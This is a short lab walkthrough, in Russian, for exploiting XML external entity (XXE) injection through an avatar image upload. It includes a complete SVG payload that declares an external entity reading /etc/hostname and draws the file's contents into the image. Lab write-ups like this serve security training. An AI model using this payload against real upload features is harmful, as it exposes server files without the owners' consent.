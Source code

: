 ## Exploiting XXE via image file upload
1. Находим что в комментариях можно указывать аватар
2. Создаем картинку, на которой бы рисовалось содержимое файла: 
```<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg> ```
3. Оставляем комментарий. На картинке видим ответ.